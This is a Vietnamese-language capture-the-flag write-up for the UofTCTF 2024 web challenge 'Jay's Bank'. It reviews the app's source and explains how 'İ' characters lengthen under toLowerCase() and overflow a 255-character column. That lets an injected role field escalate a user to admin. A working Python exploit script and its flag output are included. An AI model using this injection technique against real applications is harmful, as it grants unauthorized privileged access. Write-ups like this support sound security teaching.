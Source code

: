 ```yaml
---
title: "UofTCTF 2024"
layout: single
excerpt: "January 13, 2024 12:00 PM EST to January 14, 2024 11:59 PM EST 💻 "
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/SJPQkvwFa.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/SJPQkvwFa.png">
</p>


# WEB challs
## Jay's Bank - 499 point

### Description
```
My bank is still in pre-alpha-alpha-alpha stage, but I'm sure it's secure enough to keep all of your information safe.

Author: SteakEnthusiast

http://34.123.200.191/

```

source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/uofTCTF2024/jays-bank.zip)

### Solution

Giao diện trang web cung cấp như sau: 

![Alt text](https://hackmd.io/_uploads/HkFS1vDFp.png)

Vì challenge này cung cấp source code nên ta sẽ thực hiện review source trước.

Trong `CTF/uoftctf/jays-bank/routes/index.js`
Đọc đoạn code sau có thể thấy để có thể lấy được FLAG ta cần một tài khoản với `role:admin` 

![Alt text](https://hackmd.io/_uploads/rJowkPwFa.png)

Nhưng mặc định, khi người dùng thực hiện update profile sẽ add thêm một `role:user`

![Alt text](https://hackmd.io/_uploads/SJmt1DPFp.png)

Kiểm tra trong database

![Alt text](https://hackmd.io/_uploads/HyScywvYp.png)

Phân tích một chút trong hàm `router.put("/profile", jwtAuth, async (req, res)` trong index.js
Lỗ hổng trong thử thách này xuất phát từ vị trí này 

![Alt text](https://hackmd.io/_uploads/H1_okPPY6.png)

app thực hiện lấy các thông tin `username, phone, credit_card, secret_question, secret_answer` và add thêm một `role:user`. Trong đó gọi tới hai hàm `updateData` để cập nhật data user vào database

![Alt text](https://hackmd.io/_uploads/Hyw31vDK6.png)

và hàm `convert` nhận vào một đối tượng (object) `o` và trả về một chuỗi JSON được tạo ra từ các cặp khóa-giá trị của đối tượng đó

```js
  convert(o) {
    return `{${Object.entries(o).map(([k, v]) => 
      `"${k}": ${typeof v === "object" && v !== null ? convert(v) : `"${v}"`}`
    ).join(", ")}}`.toLowerCase();
  }
```

Cuối cùng hàm thực hiện chuyển kết quả json về dạng LowerCase() trả về một khối `data` và update data này cho user trong database.

Trong file `init.sql` định nghĩa độ dài tối đa cho trường data này là `255`. 

![Alt text](https://hackmd.io/_uploads/r1F6kwDFp.png)

Ý tưởng khai thác:
- Các trường `secret_answer` và `role: "user"` được insert gần nhau, trong đó trường secret_answer có khả năng kiểm soát. Để khai thác thành công, chúng ta cần chèn một chuỗi secret_answer đủ dài vừa đủ để chèn được role mới và xóa bỏ role:user cũ , từ đó ghi đè lên một trường role khác với giá trị là `admin`.

- Trước đó, `secret_answer` và `secret_question` cũng phải vượt qua các điều kiện check sao cho không vượt quá 45 ký tự bằng cách sử dụng các ký tự Unicode đặc biệt như `İ` có thể làm tăng kích thước khi đi qua hàm `toLowerCase()`

```
Có một số ký tự đặc biệt trong JavaScript

Đối với toUpperCase():
Các ký tự “ı” và “ſ” được toUpperCase xử lý và kết quả là “I” và “S”

Đối với toLowerCase():
Ký tự “K” được toLowerCase xử lý và kết quả là “k” (K này không phải là K)
```

### Script
```python
import requests

url = "http://127.0.0.1:3000/"

session = requests.session()

session.post(url + 'register', json={"password": "Abc@123!@#", "username": "abc9092909078"})

session.post(url + 'login', json={"username":"abc9092909078","password":"Abc@123!@#"})

session.put(url + 'profile', json={"phone":"1234567890","credit_card":"1234567890987654","secret_question":"İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ","secret_answer":"İİİİİİİİİİİİİİİİİİİİİİİİ\",\"role\":\"admin\"}","current_password":"Abc@123!@#"})

res = session.get(url + 'dashboard')

print(res.text)
```

Result:
```
|_>kali: python 1.py

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard - Jay's Bank</title>
    <link rel="stylesheet" href="/css/dashboard.css">
</head>
<body>
    <div class="container">
        <nav>
            <ul>
                <li><a href="/">Home</a></li>
                <li><a href="/profile">Edit Profile</a></li>
                <li><a href="/logout">Logout</a></li>
            </ul>
        </nav>
        <h1>Welcome, abc9092909078</h1>
        <p>Your phone number: 1234567890</p>
        <p>Your credit card (last 4 digits): 7654</p>
        
            <p>Since you're the admin, here is your flag: uoftctf{fake_flag}</p>
        
    </div>
</body>
</html>
```